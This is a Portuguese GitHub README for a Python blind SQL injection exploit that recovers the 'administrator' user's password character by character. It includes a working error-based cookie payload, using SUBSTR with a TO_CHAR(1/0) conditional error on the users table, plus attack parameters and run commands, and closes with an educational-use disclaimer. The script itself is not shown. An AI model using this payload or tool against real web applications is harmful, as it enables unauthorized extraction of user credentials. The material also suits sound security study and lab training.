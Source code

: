 ## 📄 Licença

Este projeto está licenciado sob a licença MIT. Consulte o arquivo [LICENSE](LICENSE) para mais detalhes.

# Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py


⚠️ Aviso Legal

Este script é apenas para fins educacionais e de teste em ambientes controlados. Nunca use este código em sistemas sem permissão explícita. O uso indevido pode resultar em consequências legais.
